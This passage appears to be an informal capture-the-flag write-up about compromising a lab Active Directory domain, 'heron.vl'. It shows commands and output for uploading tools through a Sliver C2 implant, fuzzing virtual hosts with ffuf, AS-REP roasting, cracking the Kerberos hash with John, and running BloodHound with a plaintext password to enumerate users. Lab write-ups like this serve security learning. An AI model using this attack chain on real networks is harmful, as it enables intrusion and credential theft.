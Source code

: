 thats all okey but there is nothing on website vhost attack would be cool for it.


    sliver (heron_lin) > upload /usr/bin/ffuf

    [*] Wrote file to /tmp/ffuf

    sliver (heron_lin) > upload /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt

    ⠋  /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -> subdomains-top1mi ⠙  /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -> subdomains-top1mi ⠹  /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -> subdomains-top1mi ⠸  /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -> subdomains-top1mi ⠼  /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -> subdomains-top1mi ⠴  /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -> subdomains-top1mi ⠦  /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -> subdomains-top1mi ⠧  /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -> subdomains-top1mi ⠇  /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -> subdomains-top1mi ⠏  /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -> subdomains-top1mi ⠋  /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -> subdomains-top1mi ⠙  /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -> subdomains-top1mi ⠹  /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -> subdomains-top1mi[*] Wrote file to /tmp/subdomains-top1million-110000.txt


    pentest@frajmp:/tmp$ ./ffuf -w subdomains-top1million-110000.txt -u http://heron.vl -H "Host: FUZZ.heron.vl" -fs 4128


    accounting              [Status: 401, Size: 0, Words: 1, Lines: 1, Duration: 26ms]

so its 401 we need to find some creds let use asrep attacaks maybe can find hash.

![alt text](<../assets/images/Screenshot_2024-07-13_00_28_22 (1).png>)

i created userslist with those on lets try something.

![alt text](../assets/images/Screenshot_2024-07-12_21_38_03.png)

    ➜  heron john samuel_davies.hash --wordlist=/usr/share/wordlists/rockyou.txt 
    Using default input encoding: UTF-8
    Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
    Will run 6 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    <redacted>        ($krb5asrep$23$samuel.davies@HERON.VL) 

with creds let use bloodhound directly and we can basicly dump userslist with it

    ➜  blood proxychains bloodhound-python -d 'heron.vl' -u 'samuel.davies' -p 'l6fkiy9oN' -c all -ns 10.10.140.245

for dump all userslist:


    ➜  blood cat 20240712214111_users.json | jq -r '.data[] | select(.Properties.samaccountname != null) | .Properties.samaccountname' 
